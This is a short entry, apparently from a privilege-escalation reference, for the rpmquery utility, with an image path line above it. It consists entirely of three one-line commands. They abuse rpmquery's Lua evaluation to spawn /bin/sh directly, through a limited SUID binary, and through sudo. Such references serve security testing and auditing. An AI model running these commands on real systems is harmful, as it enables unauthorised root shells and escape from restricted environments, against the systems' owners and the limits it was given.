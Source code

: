 functions:
  shell:
    - code: rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
  limited-suid:
    - code: ./rpmquery --eval '%{lua:os.execute("/bin/sh")}'
  sudo:
    - code: sudo rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
---
